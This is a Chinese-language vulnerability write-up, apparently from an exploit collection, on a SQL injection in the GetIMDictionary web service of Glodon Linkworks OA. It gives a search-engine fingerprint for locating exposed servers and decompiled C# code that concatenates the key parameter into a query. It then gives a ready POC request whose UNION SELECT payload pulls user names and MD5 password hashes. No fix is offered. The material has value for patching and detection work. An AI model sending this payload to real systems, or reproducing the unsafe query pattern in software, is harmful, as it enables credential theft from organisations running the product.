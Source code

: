# 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

<a-checkbox checked>广联达 Linkworks</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="/Services/Identification/"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88.png)

```c
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}

```

![image.png](../../../.vuepress/public/img/1691802569740-77f284a9-b794-4a09-a5fb-1191f5d1ae60.png)

验证POC

```php
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

![img](../../../.vuepress/public/img/1691730785445-8eb7507c-cb15-4876-801a-0be49781ccb2.png)